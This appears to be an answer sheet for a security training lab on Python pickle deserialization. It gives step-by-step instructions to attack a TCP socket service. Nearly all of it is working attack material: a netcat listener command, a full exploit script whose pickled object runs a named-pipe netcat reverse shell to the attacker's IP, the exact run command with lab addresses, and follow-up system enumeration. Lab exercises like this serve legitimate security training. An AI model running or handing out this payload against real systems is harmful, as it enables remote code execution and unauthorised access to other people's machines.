

# Python Deserialization Answersheet

**Step 1:**Navigate to "Python: Connect over TCP Socket: 16662"

<br /> <br />

**Step 2:**Capture the IP Address and port.

<br /> <br />

**Step 3:**Start the listener using following command
```
`nc -nlvp 5555
```

<br /> <br />

**Step 4:**Use the following code to generate the payload
```python
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
import sys

if len(sys.argv) < 5:
    print "Usage: python py_exploit.py <attacker_ip_address> <attacker_port> <docker_ip_address> <docker_port>"
    sys.exit(1)

localIP=sys.argv[1] 
localPort=sys.argv[2]
dockerIP=sys.argv[3]
dockerPort=sys.argv[4]


class payload(object):
	def __reduce__(self):
		comm = "rm /tmp/shell; mknod /tmp/shell p; nc "+localIP+" "+localPort+" 0</tmp/shell | /bin/sh 1>/tmp/shell"
		return (os.system, (comm,))

payload = pickle.dumps( payload())
soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
soc.connect((dockerIP, int(dockerPort)))
print soc.recv(1024) 
soc.send(payload) 
```

**Step 5:**Run the exploit file using following command
```
python py_exploit.py 192.168.29.88 5555 192.168.29.201 16662
```

<br /> <br />

**Step 6:**Received the connection on Reverse shell and now we can extract the system information using whoami, uname -a command

<br /> <br />